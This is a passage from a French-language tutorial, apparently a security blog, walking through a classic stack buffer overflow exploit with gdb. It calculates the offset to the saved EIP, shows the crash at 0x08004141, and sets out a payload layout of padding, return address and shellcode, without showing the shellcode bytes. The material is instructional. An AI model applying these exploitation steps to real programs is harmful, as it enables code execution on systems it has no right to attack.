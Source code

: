 Les premières étapes du cas 1 sont toujours valables. Refaisons notre petit calcul. On voit dans les instructions assembleur que 0x10 octets (donc 16) sont réservés pour le buffer pour strcpy. Si nous ajoutons la taille de EBP, cela fait 20 octets. On peut vérifier ce calcul simplement en envoyant une chaine de 22 caractères, et en vérifiant que EIP a été écrasé à moitié :

<pre class="lang:shell">(gdb) run `perl -e 'print "A"x22'`
Starting program: /tmp/hackndo/binary `perl -e 'print "A"x22'`
AAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x08004141 in ?? ()
(gdb)</pre>

Nous voyons que le programme a tenté d'accéder à l'adresse mémoire 0x08004141. Donc les deux derniers caractères de notre chaine dépassent sur la sauvegarde de EIP. Il y a donc deux caractères en trop, ce qui fait bien 20 octets avant d'écraser EIP (sans compter le caractère null). Il faut donc pour notre payload :

  * 20 caractères (quels qu'ils soient)
  * L'adresse qui suit l'adresse à laquelle est sauvegardée EIP
  * (Le pool de NOP, mais nous allons faire sans)
  * Le shellcode

<p style="text-align: center;">
  <img class="alignnone size-full wp-image-474 " src="http://i1.wp.com/blog.hackndo.com/assets/uploads/2015/03/img_54f78d2d9a419.png?w=640" alt="Organisation de la pile pour le shellcode après EIP sans NOP" data-recalc-dims="1" />
</p>

<p style="text-align: left;">
  Pour connaitre l'adresse de la sauvegarde de EIP (et donc l'adresse qui suit), faisons un breakpoint juste après que EIP est poussé sur la pile, c'est à dire à la première instruction de <em>func</em> et regardons la valeur de ESP.
</p>

<pre class="lang:shell">(gdb) break *0x080483f4
Breakpoint 1 at 0x80483f4
(gdb) run `perl -e 'print "A"x69'`
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /tmp/hackndo/binary A

Breakpoint 1, 0x080483f4 in func ()
(gdb) i r $esp
esp            0xbffffc4c    0xbffffc4c
(gdb) x/4xw $esp
0xbffffc4c:    0x08048446    0xbffffe81    0xb7ff1380    0x0804846b
(gdb)</pre>

<p style="text-align: left;">
  <div class='info2'>
    Pourquoi lancer <em>run</em> avec 69 &#8216;A', plutôt que de lancer <em>run</em> sans argument ?
  </div>
</p>

<p style="text-align: left;">
  Il est important de se poser cette question. En effet, nous sommes en train de chercher une adresse précise d'une variable sur la pile. Il est important de passer 69 &#8216;A' en argument car c'est la longueur totale de notre payload que nous enverrons pour exploiter le buffer overflow (20 octets contenant le buffer et EBP + 4 octets pour l'écrasement de EIP + 45 octets de shellcode).  Or, avant la pile se trouvent les variables d'environnement et les arguments du programme (dont son nom).
</p>
